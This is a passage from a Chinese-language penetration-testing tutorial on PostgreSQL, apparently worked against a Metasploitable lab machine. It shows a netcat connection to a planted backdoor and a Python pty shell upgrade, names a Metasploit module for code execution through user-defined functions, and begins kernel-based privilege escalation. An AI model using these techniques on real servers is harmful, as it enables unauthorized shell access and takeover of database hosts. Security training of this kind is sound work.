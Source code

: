 

```

nc -vn 192.168.100.11 2346

python -c "import pty;pty.spawn('/bin/bash')"



```



[![](/Users/seven/Desktop/pocs/database/postgresql/postgresql渗透技巧.assets/t011389936e63c867c2.png)](https://p5.ssl.qhimg.com/t011389936e63c867c2.png)



图 20. PostgreSQL：连接到后门



如果 postgres 服务账户具备 / tmp 目录的写入权限，那么我们可以通过用户自定义函数（UDF，user defined functions）实现任意代码执行。



```

exploit/linux/postgres/postgres_payload



```



[![](/Users/seven/Desktop/pocs/database/postgresql/postgresql渗透技巧.assets/t01e92cee2d758990be.png)](https://p2.ssl.qhimg.com/t01e92cee2d758990be.png)



图 21. PostgreSQL：代码执行



**六、权限提升**



如果我们通过已获取的数据库凭证或其他方法获得对目标主机的访问权限，那么接下来我们应当尝试将已有权限提升至 root 权限。当然，我们在 Linux 系统中可以有各种方法实现权限提升，并且这也是比较复杂的一个过程，但为了不偏离本文的主题，我们使用某个内核漏洞完成权限提升任务。



尽可能完整地获取内核版本以及操作系统的全部信息有助于我们发现系统存在哪些漏洞，命令如下：



```

user@metasploitable:/

uname -a

Linux metasploitable 2.6.24-16-server 



```
